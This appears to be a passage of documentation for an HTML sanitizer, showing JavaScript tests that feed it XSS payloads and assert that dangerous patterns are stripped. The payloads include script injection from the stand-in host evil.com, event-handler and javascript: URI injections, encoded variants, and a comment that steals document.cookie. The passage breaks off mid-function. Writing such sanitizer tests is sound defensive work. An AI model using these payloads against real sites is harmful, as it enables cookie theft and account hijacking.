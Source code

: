 ## Testing

### XSS Payload Tests

```javascript
const xssPayloads = [
    // Script injection
    "<script>alert('xss')</script>",
    "<script src='http://evil.com/xss.js'></script>",
    
    // Event handler injection
    "<img src=x onerror=alert(1)>",
    "<body onload=alert('xss')>",
    
    // JavaScript protocol
    "<a href='javascript:alert(1)'>click</a>",
    
    // Data URIs
    "<object data='data:text/html,<script>alert(1)</script>'>",
    
    // CSS attacks
    "<div style='background:url(javascript:alert(1))'>",
    
    // Encoded attacks
    "<img src=x on&#101;rror=alert(1)>",
    "&#60;script&#62;alert('xss')&#60;/script&#62;"
];

xssPayloads.forEach(payload => {
    const sanitized = sanitizeHTML(payload);
    
    // Verify dangerous patterns removed
    assert(!sanitized.includes('<script'));
    assert(!sanitized.includes('onerror'));
    assert(!sanitized.includes('javascript:'));
    assert(!sanitized.includes('expression('));
});
```

### Real-World Test Cases

```javascript
// Test comment system
function testCommentSecurity() {
    const maliciousComment = `
        <script>steal(document.cookie)</script>
        <img src=x onerror="alert('Hacked')">
        Normal text content
    `;
    
    const safe = sanitizeHTML(maliciousComment);
    
    // Should only contain normal text
    assert(safe.includes('Normal text content'));
    assert(!safe.includes('<script'));
    assert(!safe.includes('onerror'));
}

// Test user profile
function testProfileSecurity() {
    const maliciousBio = `
        Visit my site: <a href="javascript:void(0)" onclick="stealData()">here</a>
    `;
```